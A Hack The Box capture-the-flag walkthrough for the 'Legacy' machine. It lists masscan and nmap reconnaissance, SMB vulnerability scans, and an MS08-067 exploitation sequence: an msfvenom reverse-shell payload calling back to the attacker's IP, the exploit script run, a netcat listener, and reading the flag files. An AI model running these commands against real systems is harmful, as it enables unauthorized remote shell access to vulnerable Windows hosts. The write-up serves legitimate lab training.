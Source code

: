 # Legacy 

**Links:** [1](https://www.hackthebox.com/machines/Legacy)  [2](https://app.hackthebox.com/machines/Legacy)

**Machine ip:** 10.10.10.4

## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.4 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.4 --open

sudo nmap -Pn -n -sV -sC -sU -O -p$ports 10.10.10.4 --open
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/f9fb11ab-3893-4b05-9445-a3025431d537)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/56aa3613-f795-4f39-ae91-c937740f5ff4)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/3b75c385-baa0-4aae-b31d-fae7e20d48c1)


## Enumeration
```
ls -l /usr/share/nmap/scripts/smb* | grep vuln

nmap --script smb-vuln* -p 139,445 10.10.10.4
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a4ec1a7b-5542-4821-88b7-9220180785e1)


## Exploitation & Gaining Access & Privilege Escalation
+ ms08-067: CVE-2008-4250

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.24 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -v shellcode -a x86 --platform windows -o shellcode.txt

python ms08-067.py 10.10.10.4 6 445

nc -lnvp 4444

cd Documents and Settings\john\Desktop

type user.txt

cd C:\Documents and Settings\Administrator\Desktop

type root.txt

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78dea999-1856-426b-afe3-69aad9bab9de)



# References & Alternatives
+ https://vvmlist.github.io/#legacy
+ https://0xdf.gitlab.io/2019/02/21/htb-legacy.html
+ https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/windows-boxes/legacy-writeup-w-o-metasploit
+ 


## CVE Scripting
+ x


## Tools
+ x


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
